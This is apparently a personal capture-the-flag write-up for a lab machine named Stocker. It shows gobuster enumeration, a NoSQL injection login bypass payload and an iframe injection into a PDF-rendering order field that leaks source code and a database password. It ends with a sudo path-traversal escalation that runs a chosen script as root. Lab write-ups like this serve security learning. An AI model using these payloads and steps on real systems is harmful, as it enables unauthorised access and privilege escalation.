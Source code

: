 ping 10.10.11.196

gobuster dir -u http://stocker.htb -w /usr/share/wordlists/dirbuster/directory-list-2/3-medium.txt -t 50


PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```
└─$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u stocker.htb -t 50 --append-domain 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://stocker.htb
[+] Method:          GET
[+] Threads:         50
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/06/20 02:36:15 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
Progress: 4976 / 4990 (99.72%)
===============================================================
2023/06/20 02:36:46 Finished
```

![](20230620023900.png)

we got a page.
getting the login req


things to do - sqlmap and hydra
sqlmap did not work
hydra will be used as last resort

but on sending a json file 
with contetn type application/json
and follwoing paramters
`{"username":{"$ne":"admin"}, "password":{"$ne":"pass"}}`

we got a response back as

`Found. Redirecting to <a href="/stock">`

![](20230620024939.png)

we got 

```
POST /api/order HTTP/1.1
Host: dev.stocker.htb
Content-Length: 629
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://dev.stocker.htb
Referer: http://dev.stocker.htb/stock
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3Ai_AUVSci1pzGB1WsvBX2VdC-qIX4Wptk.YPLO7UnVGBENiyiZRKjUGFPKNbr%2FUfpMQ0r25%2FlfpfE
Connection: close

{"basket":[{"_id":"638f116eeb060210cbd83a91","title":"Axe","description":"It's an axe.","image":"axe.jpg","price":12,"currentStock":21,"__v":0,"amount":1},{"_id":"638f116eeb060210cbd83a8f","title":"Bin","description":"It's a rubbish bin.","image":"bin.jpg","price":76,"currentStock":15,"__v":0,"amount":1},{"_id":"638f116eeb060210cbd83a8d","title":"Cup","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1},{"_id":"638f116eeb060210cbd83a93","title":"Toilet Paper","description":"It's toilet paper.","image":"toilet-paper.jpg","price":0.69,"currentStock":4212,"__v":0,"amount":1}]}
```

on submission of the kart items

when we change thte title field and ad dan iframe to it
it shows 

![](20230620030230.png)

```
const express = require("express");
const mongoose = require("mongoose");
const session = require("express-session");
const MongoStore = require("connect-mongo");
const path = require("path");
const fs = require("fs");
const { generatePDF, formatHTML } = require("./pdf.js");
const { randomBytes, createHash } = require("crypto");
const app = express();
const port = 3000;
// TODO: Configure loading from dotenv for production
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";
app.use(express.json());
app.use(express.urlencoded({ extended: false }));
app.use(
 session({
 secret: randomBytes(32).toString("hex"),
 resave: false,
 saveUninitialized: true,
 store: MongoStore.create({
 mongoUrl: dbURI,
 }),
 })
);
app.use("/static", express.static(__dirname + "/assets"));
app.get("/", (req, res) => {
 return res.redirect("/login");
});
app.get("/api/products", async (req, res) => {
 if (!req.session.user) return res.json([]);
 const products = await mongoose.model("Product").find();
 return res.json(products);
});
app.get("/login", (req, res) => {
 if (req.session.user) return res.redirect("/stock");
 return res.sendFile(__dirname + "/templates/login.html");
});
app.post("/login", async (req, res) => {
 const { username, password } = req.body;
 if (!username || !password) return res.redirect("/login?error=login-error");
 // TODO: Implement hashing
 const user = await mongoose.model("User").findOne({ username, password });
 if (!user) return res.redirect("/login?error=login-error");
 req.session.user = user.id;
 console.log(req.session);
 return res.redirect("/stock");
});
app.post("/api/order", async (req, res) => {
 if (!req.session.user) return res.json({});
```

we got dev:IHeardPassphrasesArePrettySecure

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js

![](20230620062606.png)

angoose@stocker:~$ sudo /usr/bin/node /usr/local/scripts/../../../home/angoose/flag.js
b9afc8691d21e1cd3f4b1973e0e3e215

![](20230620072517.png)

### things I learned

1. You can use domain enumeration along with dirbuster
2. content-type json and injecting into json files
3. sudo -l use is a no brainer
